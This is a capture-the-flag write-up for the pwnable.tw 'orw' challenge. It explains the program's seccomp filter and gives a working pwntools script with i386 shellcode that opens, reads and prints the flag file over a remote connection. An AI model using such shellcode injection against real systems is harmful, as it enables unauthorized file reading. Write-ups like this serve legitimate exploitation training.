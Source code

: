 # orw

Read the flag from `/home/orw/flag`.

Only open read write `syscall` are allowed to use.

```
nc chall.pwnable.tw 10001
```

[orw](http://ctf.infury.org:8000/files/fbd45ee7f8e047233234f0c370d08d66/orw)

## WP

The title orw means open, read and write.

By disassembling the  executable file we can see the logic of the program.

![image-20210806115154735](orw.assets/image-20210806115154735.png)

First it will call a function called `orw_seccomp()`, this function will forbidden most of the `syscall` except open, read and write.

Then the program will read the user input, and then the program will execute the user input.

Since the shell code like opening shell is obviously forbidden by `orw_seccomp()` function, we can use shell codes only including orw operations to read the content of `/home/orw/flag`.

The script is shown below.

```python
from pwn import *
import pwnlib

p = remote('chall.pwnable.tw', 10001)
p.recvuntil(':')

# shellcode = pwnlib.shellcraft.i386.linux.cat('/home/orw/flag')

shellcode = """
xor ecx, ecx;
push ecx;
push 0x67616c66;
push 0x2f77726f;
push 0x2f656d6f;
push 0x682f2f2f;
mov ebx,esp;
xor edx,edx;
mov eax,0x5;
int 0x80;
mov ebx,eax;
mov ecx,esp;
mov edx,0x30;
mov eax,0x3;
int 0x80;
mov eax,0x4;
mov ebx,0x1;
mov edx,0x30;
int 0x80
"""

p.send(asm(shellcode))
print(p.recvall())
```

We can also get the shellcode from `pwnlib` but I can't get the flag through the shellcode from `pwnlib`, so I finally used a shellcode which is searched online. This shellcode takes effect by opening `/home/orw/flag`, read it into memory and write it on the screen. Finally I get the flag.

![image-20210806185534518](orw.assets/image-20210806185534518.png)

